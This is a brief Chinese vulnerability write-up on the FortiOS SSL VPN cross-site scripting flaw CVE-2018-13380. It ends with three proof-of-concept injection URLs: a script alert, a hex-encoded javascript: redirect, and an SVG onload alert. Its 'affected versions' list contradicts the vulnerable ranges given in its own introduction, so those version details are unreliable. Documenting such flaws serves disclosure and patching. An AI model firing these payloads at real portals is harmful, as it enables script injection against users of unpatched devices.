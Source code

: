 （CVE-2018-13380）Fortinet FortiOS xss漏洞
==========================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS
6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN
Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

三、复现过程
------------

    http://www.0-sec.org/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E
    http://www.0-sec.org/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29
    http://www.0-sec.org/message?title=x&msg=%26%23<svg/onload=alert(1)>;
